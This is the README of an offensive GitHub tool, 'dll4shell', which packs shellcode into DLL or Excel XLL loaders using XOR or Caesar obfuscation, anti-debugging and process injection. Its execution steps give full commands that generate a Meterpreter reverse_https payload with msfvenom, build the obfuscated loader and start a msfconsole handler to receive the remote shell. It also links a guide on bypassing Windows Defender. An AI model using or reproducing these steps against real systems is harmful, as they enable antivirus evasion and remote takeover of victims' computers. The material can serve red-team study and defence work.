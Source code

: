### C++ shellcode launcher

A collection of DLL runners using various shellcode injection abd obfuscation techniques. Based on the "charlotte" tool and research mentioned in external references. 

### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64
python dll4shell.py -e xor (alternalively: -e shift)

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

Techniques used (`-e` parameter):

|Value           |Obfuscation method, Details    |Code invocation              |
|----------------|-------------------------------|-----------------------------|
|xor             |XOR, const char                |VirtualAlloc, CreateThread   |
|xor1            |XOR, unsigned char             |VirtualAlloc, CreateThread   |
|xor2            |XOR, antidebugging             |Process Injection (VirtualAllocEx, CreateRemoteThread)|
|xor3            |XOR, antidebugging             |hHeapAlloc, hCreateThread    |
|shift           |Cezar, const char              |VirtualAlloc, CreateThread   |
|shift1          |Cezar, unsigned char           |VirtualAlloc, CreateThread   |

Outputs (`-o` parameter):

|Value          |Details                        |
|---------------|-------------------------------|
|dll            |DLL callable via rundll32|
|xll            |XLL callable via Add-Ins|


### External references

* [charlotte](https://github.com/9emin1/charlotte)
* [Bypassing Windows Defender with Environmental Decryption Keys](https://www.secarma.com/bypassing-windows-defender-with-environmental-decryption-keys/)